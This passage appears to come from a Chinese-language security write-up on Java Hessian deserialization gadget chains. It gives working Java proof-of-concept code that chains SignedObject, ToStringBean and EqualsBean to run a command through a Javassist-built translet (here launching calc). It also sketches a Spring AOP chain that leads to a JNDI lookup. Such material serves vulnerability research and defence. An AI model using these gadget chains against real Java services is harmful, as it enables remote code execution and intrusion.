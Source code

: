 ```bash
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap, kp.getPrivate(), Signature.getInstance("DSA"));
        ToStringBean toStringBean_sign=new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean_sign=new EqualsBean(String.class,"aiwin");
        HashMap hashMap_sign=new HashMap();
        hashMap_sign.put(equalsBean_sign,"aaa");
        setValue(equalsBean_sign,"_beanClass",ToStringBean.class);
        setValue(equalsBean_sign,"_obj",toStringBean_sign);
        String result=Hessian_serialize(hashMap_sign);
        Hessian_unserialize(result);

    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplates() throws IOException, CannotCompileException, NotFoundException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

> 同样 JdbcRowSetImpl 等常规链子也是可以的

## Spring AOP

利用链

```bash
Hessian#readObject()->
    hashMap.putVal()->
        hotSwappableTargetSource#equals()->
            AbstractPointcutAdvisor#equals()->
                AbstractBeanFactoryPointcutAdvisor#getAdvice()
                    SimpleJndiBeanFactory#getBean()->
                        lookup()
```
